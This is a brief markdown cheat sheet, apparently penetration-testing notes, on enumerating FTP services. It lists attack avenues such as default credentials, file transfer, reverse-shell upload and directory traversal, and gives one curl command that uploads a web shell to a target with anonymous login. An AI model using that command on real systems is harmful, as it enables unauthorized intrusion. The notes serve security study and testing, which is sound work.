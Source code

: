 # Common Service Enumeration

## FTP (21)
- Commom Credentials
- File upload
- File download
- Upload Reverse Shell
- Directory Traversal

```
curl -T shell.aspx ftp://<ip address>/shell.aspx --user anonymous:guest
```